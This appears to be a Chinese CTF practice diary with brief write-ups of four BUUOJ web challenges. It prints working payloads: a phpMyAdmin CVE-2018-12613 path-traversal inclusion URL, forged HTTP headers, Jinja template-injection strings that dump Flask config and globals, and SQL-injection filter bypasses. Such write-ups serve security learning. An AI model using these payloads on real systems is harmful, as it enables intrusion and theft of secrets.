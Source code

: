 # buu摸鱼日记（12）

## [GWCTF 2019]我有一个数据库

用nikto直接扫出来了Phpmyadmin，然后就进了后台，然后停止了思考

这个搞不出来主要是要一个cve-2018-12613-PhpMyadmin后台文件包含

https://www.jianshu.com/p/fb9c2ae16d09

就是过滤不严导致的一个CVE，可以造成文件读取，RCE什么的

```
/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag
```

## [BJDCTF 2nd]假猪套天下第一

绕的我有点晕

尝试sql注入的时候返回L0g1n.php

等的时候发现要改请求头

一通改就行，最后是这样的

```http
GET /L0g1n.php HTTP/1.1
Host: node3.buuoj.cn:28328
User-Agent: Commodore 64
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=99ql7tggdcn8nt36tbm1chlc66; time=1594460329999
Upgrade-Insecure-Requests: 1
Client-Ip: 127.0.0.1
Referer: gem-love.com
From: root@gem-love.com
via: y1ng.vip
```

注释里base64解开就是flag

## [WesternCTF2018]shrine

麻了，又搜bypass搜到wp了

源码审计一看就知道是ssti

```python
import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')
@app.route('/') 
def index(): 
    return open(__file__).read() 
    
@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self'] 
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
    return flask.render_template_string(safe_jinja(shrine)) 


if __name__ == '__main__': 
    app.run(debug=True) 
```

试了一下{{7*7}}果然如此

利用app回调到sys再返回app来绕过相应权限问题以及括号，最后用\_\_dict\_\_吧所有的都翻出来

```python
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```

或者是利用app python的自带函数

```
{{url_for.__globals__['current_app'].config}}
```

url_for回调到相应app然后把config输出出来

（这里只有过滤直接输入config和self的）

## [SWPU2019]Web1

一开始以为是xss(并不是)

这sql注入居然有23列！太你妈坑了

学了下bypass技巧

```
group/**/by/**/22
可以替代order by
```

被过滤# -- 可以用'1之类的方法补掉后面

[http://lz2y.top/index.php/2020/04/%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95-swpu2019web1/](http://lz2y.top/index.php/2020/04/刷题记录-swpu2019web1/)

莫名其妙复现不出来，明天在研究吧（有点恶心）